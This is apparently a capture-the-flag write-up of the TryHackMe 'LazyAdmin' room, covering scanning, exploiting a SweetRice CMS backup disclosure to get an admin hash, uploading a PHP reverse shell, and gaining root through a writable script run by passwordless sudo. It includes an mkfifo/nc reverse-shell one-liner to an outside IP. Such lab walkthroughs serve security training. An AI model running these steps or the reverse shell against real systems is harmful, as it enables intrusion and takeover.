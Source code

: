 # LazyAdmin

## LazyAdmin-THM

***

## Info

| Name         | Lazy Admin                                       |
| ------------ | ------------------------------------------------ |
| Room link    | https://tryhackme.com/room/lazyadmin             |
| Difficulty   | Easy                                             |
| Created by   | [MrSeth6797](https://tryhackme.com/p/MrSeth6797) |
| solving date | May 18th 2022                                    |
| ----         |                                                  |

<details>

<summary>Recon (Click Me)</summary>

* after starting the machine `export target=10.10.244.50`

### nmap

*   start initial nmap scan

    ```
    # Nmap 7.92 scan initiated Wed May 18 02:32:34 2022 as: nmap -Pn -vv -sS -sV -oN lazyadmin/initial 10.10.244.50
    Increasing send delay for 10.10.244.50 from 0 to 5 due to 248 out of 826 dropped probes since last increase.
    Increasing send delay for 10.10.244.50 from 5 to 10 due to 11 out of 15 dropped probes since last increase.
    Increasing send delay for 10.10.244.50 from 10 to 20 due to 11 out of 13 dropped probes since last increase.
    Increasing send delay for 10.10.244.50 from 20 to 40 due to 11 out of 13 dropped probes since last increase.
    Increasing send delay for 10.10.244.50 from 40 to 80 due to 11 out of 14 dropped probes since last increase.
    Increasing send delay for 10.10.244.50 from 80 to 160 due to 11 out of 12 dropped probes since last increase.
    Increasing send delay for 10.10.244.50 from 160 to 320 due to 11 out of 11 dropped probes since last increase.
    Increasing send delay for 10.10.244.50 from 320 to 640 due to 11 out of 11 dropped probes since last increase.
    Increasing send delay for 10.10.244.50 from 640 to 1000 due to 11 out of 11 dropped probes since last increase.
    Nmap scan report for 10.10.244.50
    Host is up, received user-set (0.10s latency).
    Scanned at 2022-05-18 02:32:35 EDT for 110s
    Not shown: 998 closed tcp ports (reset)
    PORT   STATE SERVICE REASON         VERSION
    22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
    80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.18 ((Ubuntu))
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

    Read data files from: /usr/bin/../share/nmap
    Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    # Nmap done at Wed May 18 02:34:25 2022 -- 1 IP address (1 host up) scanned in 110.45 seconds
    ```
* 22 and 80 are open
*   Let’s Navigate to the website, it’s apache2 webserver

    <img src="../LazyAdmin/images/Untitled.png" alt="Untitled" data-size="original">

***

### Website Content Discovery

*   view robots.txt

    * there is no robots.txt file,

    <img src="../LazyAdmin/images/Untitled 1.png" alt="Untitled" data-size="original">
* let’s fuzz this website using ffuf
* `ffuf -w /mnt/hgfs/Pentesting\ Share/SecLists-master/Discovery/Web-Content/directory-list-2.3-small.txt -u http://$target/FUZZ`
  *   /content found, let’s view this page

      <img src="../LazyAdmin/images/Untitled 2.png" alt="Untitled" data-size="original">

      * it’s running SweetRice CMS
*   searching for any exploit with `searchsploit`

    <img src="../LazyAdmin/images/Untitled 3.png" alt="Untitled" data-size="original">

    `SweetRice 1.5.1 - Backup Disclosure | php/webapps/40718.txt`

    *   exploit content:

        ```
        Title: SweetRice 1.5.1 - Backup Disclosure
        Application: SweetRice
        Versions Affected: 1.5.1
        Vendor URL: http://www.basic-cms.org/
        Software URL: http://www.basic-cms.org/attachment/sweetrice-1.5.1.zip
        Discovered by: Ashiyane Digital Security Team
        Tested on: Windows 10
        Bugs: Backup Disclosure
        Date: 16-Sept-2016

        Proof of Concept :

        You can access to all mysql backup and download them from this directory.
        http://localhost/inc/mysql_backup

        and can access to website files backup from:
        http://localhost/SweetRice-transfer.zip
        ```
* let’s fuzz /content directory
* `ffuf -w /mnt/hgfs/Pentesting\ Share/SecLists-master/Discovery/Web-Content/directory-list-2.3-small.txt -u http://$target/content/FUZZ`
* images, js, inc, as, themes, attachment found
*   let’s try the exploit with /content/inc directory

    <img src="../LazyAdmin/images/Untitled 4.png" alt="Untitled" data-size="original">
* download mysql backup in [http://10.10.244.50/content/inc/mysql\_backup/mysql\_bakup\_20191129023059-1.5.1.sql](http://10.10.244.50/content/inc/mysql\_backup/mysql\_bakup\_20191129023059-1.5.1.sql)
*   backup content

    ```
    <?php return array (
      0 => 'DROP TABLE IF EXISTS `%--%_attachment`;',
      1 => 'CREATE TABLE `%--%_attachment` (
      `id` int(10) NOT NULL AUTO_INCREMENT,
      `post_id` int(10) NOT NULL,
      `file_name` varchar(255) NOT NULL,
      `date` int(10) NOT NULL,
      `downloads` int(10) NOT NULL,
      PRIMARY KEY (`id`)
    ) ENGINE=MyISAM DEFAULT CHARSET=utf8;',
      2 => 'DROP TABLE IF EXISTS `%--%_category`;',
      3 => 'CREATE TABLE `%--%_category` (
      `id` int(4) NOT NULL AUTO_INCREMENT,
      `name` varchar(255) NOT NULL,
      `link` varchar(128) NOT NULL,
      `title` text NOT NULL,
      `description` varchar(255) NOT NULL,
      `keyword` varchar(255) NOT NULL,
      `sort_word` text NOT NULL,
      `parent_id` int(10) NOT NULL DEFAULT \'0\',
      `template` varchar(60) NOT NULL,
      PRIMARY KEY (`id`),
      UNIQUE KEY `link` (`link`)
    ) ENGINE=MyISAM DEFAULT CHARSET=utf8;',
      4 => 'DROP TABLE IF EXISTS `%--%_comment`;',
      5 => 'CREATE TABLE `%--%_comment` (
      `id` int(10) NOT NULL AUTO_INCREMENT,
      `name` varchar(60) NOT NULL DEFAULT \'\',
      `email` varchar(255) NOT NULL DEFAULT \'\',
      `website` varchar(255) NOT NULL,
      `info` text NOT NULL,
      `post_id` int(10) NOT NULL DEFAULT \'0\',
      `post_name` varchar(255) NOT NULL,
      `post_cat` varchar(128) NOT NULL,
      `post_slug` varchar(128) NOT NULL,
      `date` int(10) NOT NULL DEFAULT \'0\',
      `ip` varchar(39) NOT NULL DEFAULT \'\',
      `reply_date` int(10) NOT NULL DEFAULT \'0\',
      PRIMARY KEY (`id`)
    ) ENGINE=MyISAM DEFAULT CHARSET=utf8;',
      6 => 'DROP TABLE IF EXISTS `%--%_item_data`;',
      7 => 'CREATE TABLE `%--%_item_data` (
      `id` int(10) NOT NULL AUTO_INCREMENT,
      `item_id` int(10) NOT NULL,
      `item_type` varchar(255) NOT NULL,
      `data_type` varchar(20) NOT NULL,
      `name` varchar(255) NOT NULL,
      `value` text NOT NULL,
      PRIMARY KEY (`id`),
      KEY `item_id` (`item_id`),
      KEY `item_type` (`item_type`),
      KEY `name` (`name`)
    ) ENGINE=MyISAM DEFAULT CHARSET=utf8;',
      8 => 'DROP TABLE IF EXISTS `%--%_item_plugin`;',
      9 => 'CREATE TABLE `%--%_item_plugin` (
      `id` int(10) NOT NULL AUTO_INCREMENT,
      `item_id` int(10) NOT NULL,
      `item_type` varchar(255) NOT NULL,
      `plugin` varchar(255) NOT NULL,
      PRIMARY KEY (`id`)
    ) ENGINE=MyISAM DEFAULT CHARSET=utf8;',
      10 => 'DROP TABLE IF EXISTS `%--%_links`;',
      11 => 'CREATE TABLE `%--%_links` (
      `lid` int(10) NOT NULL AUTO_INCREMENT,
      `request` text NOT NULL,
      `url` text NOT NULL,
      `plugin` varchar(255) NOT NULL,
      PRIMARY KEY (`lid`)
    ) ENGINE=MyISAM DEFAULT CHARSET=utf8;',
      12 => 'DROP TABLE IF EXISTS `%--%_options`;',
      13 => 'CREATE TABLE `%--%_options` (
      `id` int(10) NOT NULL AUTO_INCREMENT,
      `name` varchar(255) NOT NULL,
      `content` mediumtext NOT NULL,
      `date` int(10) NOT NULL,
      PRIMARY KEY (`id`),
      UNIQUE KEY `name` (`name`)
    ) ENGINE=MyISAM AUTO_INCREMENT=4 DEFAULT CHARSET=utf8;',
      14 => 'INSERT INTO `%--%_options` VALUES(\'1\',\'global_setting\',\'a:17:{s:4:\\"name\\";s:25:\\"Lazy Admin&#039;s Website\\";s:6:\\"author\\";s:10:\\"Lazy Admin\\";s:5:\\"title\\";s:0:\\"\\";s:8:\\"keywords\\";s:8:\\"Keywords\\";s:11:\\"description\\";s:11:\\"Description\\";s:5:\\"admin\\";s:7:\\"manager\\";s:6:\\"passwd\\";s:32:\\"42f749ade7f9e195bf475f37a44cafcb\\";s:5:\\"close\\";i:1;s:9:\\"close_tip\\";s:454:\\"<p>Welcome to SweetRice - Thank your for install SweetRice as your website management system.</p><h1>This site is building now , please come late.</h1><p>If you are the webmaster,please go to Dashboard -> General -> Website setting </p><p>and uncheck the checkbox \\"Site close\\" to open your website.</p><p>More help at <a href=\\"http://www.basic-cms.org/docs/5-things-need-to-be-done-when-SweetRice-installed/\\">Tip for Basic CMS SweetRice installed</a></p>\\";s:5:\\"cache\\";i:0;s:13:\\"cache_expired\\";i:0;s:10:\\"user_track\\";i:0;s:11:\\"url_rewrite\\";i:0;s:4:\\"logo\\";s:0:\\"\\";s:5:\\"theme\\";s:0:\\"\\";s:4:\\"lang\\";s:9:\\"en-us.php\\";s:11:\\"admin_email\\";N;}\',\'1575023409\');',
      15 => 'INSERT INTO `%--%_options` VALUES(\'2\',\'categories\',\'\',\'1575023409\');',
      16 => 'INSERT INTO `%--%_options` VALUES(\'3\',\'links\',\'\',\'1575023409\');',
      17 => 'DROP TABLE IF EXISTS `%--%_posts`;',
      18 => 'CREATE TABLE `%--%_posts` (
      `id` int(10) NOT NULL AUTO_INCREMENT,
      `name` varchar(255) NOT NULL,
      `title` varchar(255) NOT NULL,
      `body` longtext NOT NULL,
      `keyword` varchar(255) NOT NULL DEFAULT \'\',
      `tags` text NOT NULL,
      `description` varchar(255) NOT NULL DEFAULT \'\',
      `sys_name` varchar(128) NOT NULL,
      `date` int(10) NOT NULL DEFAULT \'0\',
      `category` int(10) NOT NULL DEFAULT \'0\',
      `in_blog` tinyint(1) NOT NULL,
      `views` int(10) NOT NULL,
      `allow_comment` tinyint(1) NOT NULL DEFAULT \'1\',
      `template` varchar(60) NOT NULL,
      PRIMARY KEY (`id`),
      UNIQUE KEY `sys_name` (`sys_name`),
      KEY `date` (`date`)
    ) ENGINE=MyISAM DEFAULT CHARSET=utf8;',
    );?>
    ```
* "passwd\\";s:32:\\"42f749ade7f9e195bf475f37a44cafcb\” I think it’s a hashed password, so let’s crack it using hashes.com

***

</details>

<details>

<summary>Gaining Access (Click Me)</summary>

<img src="../LazyAdmin/images/Untitled 5.png" alt="Untitled" data-size="original">

* great, now we have the password for user ‘manager’ and he is admin, let’s navigate to the discovered directories to find admin login page
* images, js, inc, as, themes, attachment, we can find the login page in /content/as
*   try the username and the password we found

    <img src="../LazyAdmin/images/Untitled 6.png" alt="Untitled" data-size="original">

    <img src="../LazyAdmin/images/Untitled 7.png" alt="Untitled" data-size="original">
*   we can see there is ads section and there is ads directory in /content/inc (remember from [here](../LazyAdmin/images.md)), so let’s create an ad with our php reverse shell

    <img src="../LazyAdmin/images/Untitled 8.png" alt="Untitled" data-size="original">
* now we can run the code by navigating to http:///content/inc/ad/juba.php

***

</details>

<details>

<summary>Stabilize the shell (Click Me)</summary>

```bash
$ which python
/usr/bin/python
$ python -c 'from pty import spawn ; spawn("/bin/bash")'
www-data@THM-Chal:/$ export TERM=xterm  
export TERM=xterm
www-data@THM-Chal:/$ ^Z
zsh: suspended  nc -nlvp 9050
                                                                                                                                           
┌──(root💀kali)-[/home/juba]
└─# stty raw -echo ; fg                                                                                                          148 ⨯ 1 ⚙
[1]  + continued  nc -nlvp 9050

www-data@THM-Chal:/$
```

***

</details>

<details>

<summary>User.txt flag</summary>

```bash
www-data@THM-Chal:/$ ls
bin    dev   initrd.img      lost+found  opt   run   srv  usr      vmlinuz.old
boot   etc   initrd.img.old  media   proc  sbin  sys  var
cdrom  home  lib         mnt     root  snap  tmp  vmlinuz
www-data@THM-Chal:/$ cd /home
www-data@THM-Chal:/home$ ls
itguy
www-data@THM-Chal:/home$ cd itguy/
www-data@THM-Chal:/home/itguy$ ls 
Desktop    Downloads  Pictures  Templates  backup.pl         mysql_login.txt
Documents  Music      Public    Videos     examples.desktop  user.txt
www-data@THM-Chal:/home/itguy$ cat user.txt 
THM{63e*****************************}
www-data@THM-Chal:/home/itguy$
```

***

</details>

<details>

<summary>Privilege Escalation</summary>

```bash
www-data@THM-Chal:/home/itguy$ sudo -l
Matching Defaults entries for www-data on THM-Chal:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on THM-Chal:
    (ALL) NOPASSWD: /usr/bin/perl /home/itguy/backup.pl
www-data@THM-Chal:/home/itguy$
```

* Oh !!, he is a very lazy sysad, I can run perl and backup.pl as root with no password
* backup.pl content, if we list the file we will see that there is no write permission for us

```perl
#!/usr/bin/perl
system("sh", "/etc/copy.sh");
```

*   but if we list copy.sh we will see this

    ```perl
    www-data@THM-Chal:/home/itguy$ ls -l /etc/copy.sh 
    -rw-r--rwx 1 root root 97 May 18 11:15 /etc/copy.sh
    ```
*   we can edit copy.sh, we can type a reverse shell inside the file, but for simplicity we will use `bash -p`

    ```bash
    root@THM-Chal:/etc# cat copy.sh 
    whoami
    bash -p
    # rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.0.190 5554 >/tmp/f
    www-data@THM-Chal:/etc$ sudo /usr/bin/perl /home/itguy/backup.pl
    root
    root@THM-Chal:/etc# whoami
    root
    ```

    * Great, we are root
*   get root.txt flag

    ```bash
    root@THM-Chal:/etc# cd 
    root@THM-Chal:~# ls
    root.txt
    root@THM-Chal:~# cat root.txt
    THM{663*****************************}
    ```

***

</details>

***

### I hope you enjoyed the write-up

* [Linkedin](https://www.linkedin.com/in/juba0x00/)
* [Twitter](https://twitter.com/juba0x00/)
* [TryHackMe](https://tryhackme.com/p/Juba0x430x55)
